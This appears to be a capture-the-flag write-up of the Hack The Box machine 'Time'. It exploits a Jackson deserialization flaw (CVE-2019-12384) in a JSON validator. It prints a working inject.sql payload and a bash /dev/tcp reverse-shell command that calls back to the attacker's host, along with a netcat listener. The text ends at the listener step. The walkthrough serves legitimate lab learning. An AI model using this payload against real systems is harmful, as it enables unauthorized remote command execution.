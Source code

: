 ```yaml
---
layout: page
title: Time
description: Write-up
dropdown: HTB-BOXES
priority: 2
---
```

# Time Walkthrough
![](https://i.ibb.co/pP4vK3F/image.png)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Lua code injection vulnerability.
* Getting reverse shell.
* Enumerate luanne.
* Getting id_rsa for a user.
* ssh connecting.
* Privilege escalation.
* RooTed.

## Nmap Scan:

**I just found 22 for ssh and 80 for http web page**


![](https://i.ibb.co/rGkP8zJ/image.png)

### Let's start with the Web Page:

**It's an online JSON beautifier and validator.**

![](https://i.ibb.co/GWKXZz3/image.png)

> * I tried to find SQLi, But while i was fired up my Burp suit i found that interesting error. 

![](https://i.ibb.co/H77fsKh/image.png)

> **I searched google about (unhandled java exception com.fasterxml.jackson.core.jsonparseexception), After 15 minutes of search i realized that is a JSON deserialization, And i found a CVE-2019-12384, It's Famous about Jackson Rce For CVE-2019-12384.**


> **This [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12384) allow attacker to get RCE, By FasterXML jackson-databind 2.x before 2.9.9.1 might allow attackers to have a variety of impacts by leveraging failure to block the logback-core class from polymorphic deserialization. Depending on the classpath content, remote code execution may be possible.**


##### Hackers logic if there is a CVE, Find its Exploit.

* I found this [Exploit](https://github.com/jas502n/CVE-2019-12384), But for some reason it didn't work with me.
* Then i found [This one](https://www.programmersought.com/article/77146841082/), I will use the RCE part with reverse shell.

> **In simple steps:**
1. Add inject.sql file to your machine.
2. Get ready your bash shell execution for the reverse shell [(CALL SHELLEXEC('bash -i &>/dev/tcp/YOUR_MACHINE_IP/YOUR_NC_LISTNER_PORT 0>&1 &'))].
3. Fired up your http server for port 8000 to upload inject.sql for our attacking box (Time).
4. Make your listner ready for the reverse shell.
5. Use the POC payload with YOUR_MACHINE_IP on port 8000.
6. BOOOM, you got reverse shell.

**inject.sql**
```ruby
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.16.11/1234 0>&1 &')
```
**Firing up our http server**

![](https://i.ibb.co/synM0x0/image.png)

**Netcat as our listner ```yahia@Y4h1a:~$ nc -nlvp 1234 ```**
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()

